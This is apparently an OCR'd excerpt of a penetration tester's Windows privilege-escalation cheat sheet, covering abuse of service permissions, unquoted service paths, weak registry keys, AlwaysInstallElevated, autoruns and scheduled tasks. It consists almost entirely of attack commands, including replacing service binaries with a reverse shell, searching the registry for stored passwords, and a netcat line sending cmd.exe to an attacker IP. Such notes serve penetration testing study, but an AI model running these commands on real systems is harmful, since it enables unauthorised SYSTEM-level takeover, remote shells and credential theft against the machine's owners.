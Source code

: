     insecure service permissions:
        icacls <executable path(rev-shell)> /grant Everyone:F
        sc config <service> binPath= "\"C:\<rev_shell_path>\"" obj= LocalSystem

    unquoted service path:
        accesschk.exe /accepteula -uwdq "C:\Program Files\<unqouted_path_service>"
            -> look for write access of BUILTIN\Users
        copy C:\<path_reverse_shell> "C:\Program Files\<unquoted_path_service_exe>"

    weak registry permissions:
        accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\<service>
            -> look for write access of NT AUTHORITY\INTERACTIVE
        reg add HKLM\SYSTEM\CurrentControlSet\services\<service> /v ImagePath /t REG_EXPAND_SZ /d C:\<rev_shell_path> /f

    insecure service executables:
        accesschk.exe /accepteula -quvw "C:\Program Files\<service_binary_path_exe>"
            -> look for entry at SERVICE_START_NAME and if BINARY_PATH_NAME is writable
         copy C:\<path_reverse_shell> "C:\Program Files\<unquoted_path_service_exe>" /Y
            -> /Y for quit installation with no interactive part
    ```
2. Registry:
    ```
    AlwaysInstallElevated:
    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
        -> if values are set to 0x1 then create reverse.msi with msfvenom
        -> run with msiexec /quiet /qn /i <reverse.msi>

    Autoruns:
    reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
        -> query for autorun executables
    accesschk.exe /accepteula -wvu "C:\Program Files\<autorun_program_name_exe_path>"
        -> look if autorun executable is writable
    copy C:\<path_reverse_shell> "C:\Program Files\<unquoted_path_service_exe>" /Y
            -> /Y for quit installation with no interactive part
            
    Passwords:
    reg query HKLM /f password /t REG_SZ /s
    reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
    ```

3. Scheduled Tasks:
    ```
    Overview: 
        schtasks
    Detailed view: 
        schtasks /query /tn <task_name> /fo list /v
    Check if executable can be modifyed by us: 
        icasl <executable-path>
    Modify Task: 
        echo c:\tools\nc64.exe -e cmd.exe <attacker_ip> <port> > <old_executable_path>
    Run task immediately: 
        schtasks /run /tn <task_name>
    ```
